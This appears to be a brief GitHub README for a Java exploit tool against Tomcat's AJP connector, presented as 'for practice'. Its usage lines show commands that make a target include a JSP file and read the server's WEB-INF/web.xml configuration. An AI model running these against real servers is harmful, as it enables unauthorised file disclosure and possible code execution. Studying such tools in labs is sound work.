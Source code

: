 # Tomcat-AJP-EXP
Java version of Tomcat-AJP-EXP, for practice

# Usage
包含: java -jar exp.jar -t target -i /1.jsp
读取: java -jar exp.jar -t target -r /WEB-INF/web.xml
